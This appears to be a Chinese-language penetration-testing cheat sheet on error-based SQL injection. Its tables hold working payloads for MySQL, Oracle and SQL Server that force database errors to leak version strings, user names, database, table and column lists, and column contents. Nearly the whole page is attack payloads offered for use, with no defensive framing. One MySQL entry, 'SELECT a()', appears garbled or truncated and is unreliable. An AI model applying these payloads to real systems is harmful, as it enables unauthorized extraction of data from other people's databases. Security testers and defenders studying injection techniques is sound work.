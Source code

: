 ### 基于错误{docsify-ignore-all}

当无效输入传递给数据库时，通过触发数据库中的错误来利用基于错误的注入。错误消息可用于返回完整的查询结果，或获取有关如何重构查询以供进一步利用的信息。

#### MYSQL

| 描述   |      语句     |  
|----------|:-------------:|
| XML解析错误   |      SELECT extractvalue(rand(),concat(0x3a,(select version())))     | 
| 双查询   |     SELECT 1 AND(SELECT 1 FROM(SELECT COUNT(\*),concat(0x3a,(**SELECT username FROM USERS LIMIT 0,1**),FLOOR(rand(0)\*2))x FROM information_schema.TABLES GROUP BY x)a)  <br />递增 limit 0,1到limit 1,1开始循环数据  |  
| 获取当前数据库   |      SELECT a()     |  

#### Oracle

| 描述   |      语句     |  
|----------|:-------------:|
| 无效的HTTP请求  |      SELECT utl\_inaddr.get\_host\_name((select banner from v$version where rownum=1)) FROM dual     |
| CTXSYS.DRITHSX.SN   |      SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual     | 
| 无效的XPath   |      SELECT ordsys.ord_dicom.getmappingxpath((select banner from v$version where rownum=1),user,user) FROM dual     | 
| 无效的XML   |      SELECT to\_char(dbms_xmlgen.getxml('select "'&#124;&#124;(select user from sys.dual)&#124;&#124;'" FROM sys.dual')) FROM dual    | 
| 无效的XML   |      	SELECT rtrim(extract(xmlagg(xmlelement("s", username &#124;&#124; ',')),'/s').getstringval(),',') FROM all_users     | 



#### SQL Server

| 描述   |      语句     |  
|----------|:-------------:|
| 显式转换   |      SELECT convert(int,(SELECT @@version)) <br />SELECT cast((SELECT @@version) as int)     |  
| 隐式转换   |      SELECT 1/@@version     |  

### MSSQL CAST函数示例

以下任何查询都可以使用该`convert`函数重写或作为隐式转换.

| 描述   |      语句     |  
|----------|:-------------:|
| 将CAST函数注入当前查询   |      SELECT CAST(@@version as int)     |  
| 显示系统用户   |      SELECT CAST(SYSTEM_USER as int);     |  
| 用xml路径在一行中显示所有数据库   |      SELECT CAST((SELECT name,',' FROM master..sysdatabases FOR XML path('')) as int) <br >SELECT CAST((SELECT name AS "data()" FROM master..sysdatabases FOR xml path('')) AS int);     |  
| 显示服务器名称   |      SELECT CAST(@@SERVERNAME as int);     |  
| 显示服务名称  |      SELECT CAST(@@SERVICENAME as int);     |  
| 显示数据库列表 <br />注意：下面的查询必须在一行中执行。   |      `DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX);SET @listStr = '';SELECT @listStr = @listStr + Name + ',' FROM master..sysdatabases;SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1);SELECT CAST(@myoutput as int); `    |  
| 显示表列表 <br /> 注意：下面的查询必须在一行中执行  |      `DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX); SET @listStr = '';SELECT @listStr = @listStr + Name + ',' FROM MYDATABASE..sysobjects WHERE type = 'U';SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1);SELECT CAST(@myoutput as int);`     |  
| 显示列列表 <br />注意：下面的查询必须在一行中执行。   |      `DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX);SET @listStr = '';SELECT @listStr = @listStr + Name + ',' FROM MYDATABASE..syscolumns WHERE id=object_id('MYTABLE');SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1);select cast(@myoutput as int);`    |  
| 显示列数据<br />注意：下面的查询必须在一行中执行。 用`*`替换`MYCOLUMN`来选择所有列  |      `DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX);SET @listStr = '';SELECT @listStr = @listStr + MYCOLUMN + ',' FROM MYDATABASE..MYTABLE;SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1)SELECT CAST(@myoutput as int); `    |  
| 一次显示一个数据库名称<br />注意：递增内部TOP值以获取下一条记录  |      ` SELECT TOP 1 CAST(name as int) FROM sysdatabases WHERE name in (SELECT TOP 2 name FROM sysdatabases ORDER BY name ASC) ORDER BY name DESC  `    |  







